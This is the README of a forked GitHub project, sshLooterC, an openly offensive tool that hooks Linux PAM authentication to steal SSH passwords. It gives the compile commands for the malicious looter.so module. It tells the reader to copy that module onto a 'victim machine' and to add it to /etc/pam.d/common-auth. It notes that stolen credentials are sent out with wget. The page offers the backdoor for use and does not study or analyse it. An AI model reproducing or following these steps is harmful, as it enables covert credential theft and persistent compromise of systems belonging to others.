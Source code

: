 # sshLooterC forked

<a href="https://github.com/mthbernardes/sshLooterC">https://github.com/mthbernardes/sshLooterC</a>

# Changes from the original project
* Removed libcurl4-openssl-dev dependency, now using <b>system("wget ...")</b>
* Compiled for 32bit arch on a 64bit system, you need to install <b>gcc-multilib</b> on the attacker machine
* I coded <b>callLooter.c</b> to test the library before installation on the target


# Dependencies
* PAM dev library: <b>libpam0g-dev</b>
* [Optional] To compile the program for 32bit arch you need to install <b>gcc-multilib</b> on a 64bit system

# Compilation
~~~~
gcc callLooter.c -o callLooter -m32 -ldl
gcc -m32 -Werror -Wall -fPIC -shared -o looter.so looter2.c
~~~~
The m32 switch is optional and allows to compile the files for a 32bit victim on a 64bit attacker machine

# Usage
Copy the <b>looter.so</b> to victim machine on <b>/lib/security</b>, then append to <b>/etc/pam.d/common-auth</b>the following lines:
~~~~
auth optional looter.so
account optional looter.so
~~~~
# Credits
<a href="https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html" target="_blank">Stealing SSH credentials Another Approach.</a>
<br/>
Thank you

 
